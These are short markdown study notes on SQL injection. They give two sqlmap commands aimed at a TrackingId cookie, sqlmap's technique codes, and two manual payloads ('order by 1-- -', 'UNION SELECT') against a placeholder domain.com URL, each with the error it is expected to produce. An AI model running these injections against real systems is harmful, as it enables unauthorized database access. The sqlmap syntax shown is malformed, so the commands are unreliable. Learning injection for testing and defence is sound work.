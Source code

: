 # sqlmap command to attack 

---
`sqlmap -u "url" -p cookies="TrackingId=*" --technique=`

`sqlmap -r req.txt -p cookies="TrackingId=*" --technique=`
--- 

The list of techniques with its letters is as follows:

    B: Boolean-based blind
    E: Error-based
    U: Union query-based
    S: Stacked queries
    T: Time-based blind
    Q: Inline queries


# sql injection payload for error based technique

---
http://domain.com/index.php?id=1' order by 1-- -
---

1. This query musn't shows up error, since there is no lower number than 1
2. order by 1: mean arrage the result in asscending order by the first column of the table

---
http://domain.com/index.php?id=xyz' UNION SELECT 1--
---

1. return **ERROR: UNION types character varying and integer cannot be matched** mean id's type is character while 1 is type of integer
